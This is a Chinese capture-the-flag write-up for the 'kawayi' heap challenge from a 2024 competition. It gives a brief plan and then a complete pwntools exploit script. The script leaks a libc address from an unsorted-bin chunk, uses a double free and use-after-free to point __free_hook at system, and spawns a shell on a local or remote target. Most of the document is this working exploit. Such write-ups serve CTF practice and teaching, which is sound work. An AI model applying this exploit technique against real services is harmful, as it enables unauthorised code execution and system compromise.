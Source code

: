 ```yaml
---
title: greatwall2024 初赛 - kawayi 
date: 2024/3/31 21:53:00
updated: 2024/7/25 12:34:56
tags:
    - heap - tcache
    - libc2.27
excerpt: 利用双重释放和使用-after-free漏洞，通过tcache dup将free_hook指向system，最终获取shell。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.27-3ubuntu1.6|

## 解题思路

标准菜单题  
允许申请0x430大的unsorted bin，有double free和uaf，考虑通过释放unsorted bin拿到libc，
然后打tcache dup写free_hook为system，再释放`b'/bin/sh\0'`的chunk就可以拿shell

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'

def payload(lo:int):
    global sh
    if lo:
        sh = process('./kawayi')
        if lo & 2:
            gdb.attach(sh)
    else:
        context.proxy = (socks.SOCKS5, '127.0.0.1', 1080)
        sh = remote('192.168.16.186', 8888) 
    libc = ELF('./libc.so.6') 

    def addn(idx:int, size:int, cont:bytes, hooked:bool=False): 
        sh.sendlineafter(b'exit', b'1')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendlineafter(b'size', str(size).encode())
        sh.sendafter(b'talk', cont)

    def edit(idx:int, cont:bytes):
        sh.sendlineafter(b'exit', b'3')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendafter(b'write', cont)

    def deln(idx:int):
        sh.sendlineafter(b'exit', b'2')
        sh.sendlineafter(b'index', str(idx).encode())

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'exit', b'4')
        sh.sendlineafter(b'index?\n\n', str(idx).encode())
        return sh.recvline()

    def eout():
        sh.sendlineafter(b'exit', b'5')

    addn(0, 0x410, b' ')
    addn(1, 0x20, b' ') # prevent chunk 0 being merged into top chunk
    deln(0)
    ret = show(0)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    success(GOLD_TEXT(f'Leak libc: {hex(libcBase)}'))
    freeHook = libcBase + libc.symbols['__free_hook']
    system = libcBase + libc.symbols['system']

    # tcache dup
    deln(1)
    edit(1, p64(freeHook) + p64(0))
    deln(1)
    edit(1, p64(freeHook) + p64(0))
    addn(2, 0x20, p64(system))
    addn(3, 0x20, p64(system))
    # get shell
    edit(1, b'/bin/sh\0')
    deln(1)

    sh.clean()
    sh.interactive()
```

> 最后一分钟交的flag，真是蓟县
